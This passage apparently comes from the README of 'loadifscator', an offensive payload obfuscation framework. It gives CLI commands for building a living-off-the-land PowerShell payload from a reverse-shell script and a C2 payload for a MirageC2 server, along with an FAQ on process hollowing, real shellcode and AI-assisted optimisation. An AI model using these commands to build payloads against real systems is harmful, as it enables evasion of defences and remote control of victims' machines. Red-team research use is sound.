 ### 3. Living-Off-The-Land Payload
```bash
python -m loadifscator.cli living-off-land --technique powershell --payload reverse.py -o lotl_payload.ps1
```

### 4. C2 Integration (MirageC2)
```bash
python -m loadifscator.cli c2-mirage --server http://mirage.local --listener mylistener --key APIKEY123 -o mirage_payload.py
```

---

## Troubleshooting

### Common Issues
- **ImportError:** Ensure all dependencies are installed (`pip install -r requirements.txt`)
- **FileNotFoundError:** Check that shellcode or payload files exist and paths are correct
- **PermissionError:** Run as administrator if required (especially for process hollowing)
- **OpenAI API Errors:** Ensure your API key is set as an environment variable (`OPENAI_API_KEY`)
- **Syntax Errors:** Use the correct CLI syntax (dashes, not underscores)

### Debugging Tips
- Use `--help` with any command for usage info
- Check the output files for errors or incomplete payloads
- Review the logs and console output for stack traces

---

## FAQ

**Q: Is this tool legal to use?**
A: Only for authorized red team, research, and educational use. Never use for unauthorized access.

**Q: Can I add my own payloads or obfuscators?**
A: Yes! The framework is modular. Add new modules under `loadifscator/payloads/` or `loadifscator/obfuscators/`.

**Q: Does it support Linux/Mac payloads?**
A: Bash and Python payloads are cross-platform. Windows-specific features (e.g., memory-only, process hollowing) are for Windows.

**Q: How do I use the AI optimizer?**
A: Set your OpenAI API key, then use the `ai-optimize` command.

**Q: Can I use real shellcode?**
A: Yes. Use msfvenom, Donut, or the included generator for test shellcode.

**Q: Is there a web GUI?**
A: A basic web GUI is included in `loadifscator/webgui/app.py` (experimental).

---
